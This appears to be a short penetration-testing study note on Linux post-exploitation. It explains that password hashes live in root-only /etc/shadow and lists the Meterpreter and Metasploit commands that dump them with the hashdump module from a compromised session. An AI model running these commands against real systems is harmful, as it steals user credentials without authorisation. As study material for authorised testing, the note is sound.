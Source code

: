 ```yaml
---
up: "[[Linux Post Exploitation]]"
---
```


# Dumping Hashes with Hashdump

- Hashdump is a post exploitation module
- Linux passwords are stored in the /etc/shadow
	- only accessible by the root user

## Demonstration

```
m> sysinfo
m> getuid
> use post/linux/gather/hashdump
> set SESSION <id>
> run
```